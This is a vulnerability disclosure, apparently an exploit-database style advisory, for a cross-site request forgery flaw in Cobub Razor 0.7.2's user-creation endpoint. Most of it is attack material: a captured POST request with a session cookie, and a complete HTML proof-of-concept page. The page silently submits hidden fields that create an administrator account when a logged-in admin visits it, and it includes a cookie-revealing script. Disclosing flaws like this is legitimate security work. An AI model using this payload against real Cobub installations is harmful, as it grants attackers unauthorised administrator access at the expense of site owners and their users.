 ﻿Vendor Homepage  :  http://www.cobub.com/  
 
Software Link    :  https://github.com/cobub/razor/releases  

Version          :  0.7.2  

##  CVE description  ##
A cross-site request forgery (CSRF) vulnerability exists in Western Bridge Cobub Razor 0.7.2   
via /index.php?/user/createNewUser/, resulting in account creation.

##  Technical details  ##
In /index.php?/user/createNewUser/ POST:username=&email=&password=&confirm_password=&userrole=&user%2FccreateNewUser=.  

Because the Cobub Razor is lack of identity authentication ,When attacker induce authenticated admin user to a malicious web page, the account will be created without admin user's intention.

##  Proof of Concept  ##
1. Login to console page.(/index.php?/auth/login -> /index.php?/)
2. Keep login and access the PoC payload html it has following content  
3. Userrole is 3, which means that the user is admin.  
  
  
request:
POST /index.php?/user/createNewUser/ HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Referer: http://localhost
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; MANMJS; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 122
Host: localhost:80
Pragma: no-cache
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22c234df4ea2a0b843401dd9465f1c7c49%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A77%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+Trident%2F7.0%3B+MANMJS%3B+rv%3A11.0%29+like+Gecko%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520384883%3B%7D12178fe8e9554e0e6aa6007fb4476dfc
Connection: close

username=test123&email=test@test123.test&password=test&confirm_password=test&userrole=3&user%2FccreateNewUser=%E5%88%9B%E5%BB%BA  
  
  
PoC payload:
```<html>
  <body>
  <script>alert(document.cookie)</script>
    <form action="http://localhost/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
